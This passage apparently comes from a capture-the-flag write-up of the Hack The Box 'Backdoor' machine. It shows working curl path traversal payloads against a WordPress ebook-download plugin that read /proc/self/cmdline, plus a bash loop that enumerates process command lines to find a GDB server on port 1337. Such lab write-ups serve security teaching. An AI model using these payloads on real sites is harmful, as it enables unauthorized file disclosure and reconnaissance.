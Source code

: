 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2012.png)

However, curl does not allow to play binary data in the terminal. You will need to use `-o-` to force exit.

```bash
curl -o- http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl**=**../../../../../../../proc/self/cmdline
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2013.png)

Now let's clean up this output:

```bash
curl -o- -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c55- | rev | cut -c32- | rev
```

> `-s` para limpar a saída.
`tr '\000' ' '` substitui os dados nulos por espaços.
`cut -c55-` retira: ***/proc/self/cmdline/proc/self/cmdline/proc/self/cmdline***
`cut -c32-` Retira: ***<script>window.close()</script>***
`rev` Inverte a string
> 

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2014.png)

Now that the output is clean, we'll make a script that will change `self` to a PID from 1 to 2000 and show us the process running on each PID.

```bash
#!/bin/bash

for i in {1..2000}; do

    path="/proc/${i}/cmdline"    
    retira_path=$(( 3 * ${#path} + 1))

    resp=$(curl -o- -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} | tr '\000' ' ')
    saida=$(echo $resp | cut -c ${retira_path}- | sed "s/<script>window.close()<\/script>//")
    
    if [[ -n "$saida" ]]; then
        echo -e "PID:${i} ==> ${saida}"
    fi

done
```

This script will take a while to return what we want, but the result is this:

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Backdoor/Untitled%2015.png)

We see that `GDB Server` is running on port 1337 with **user** user in loop.
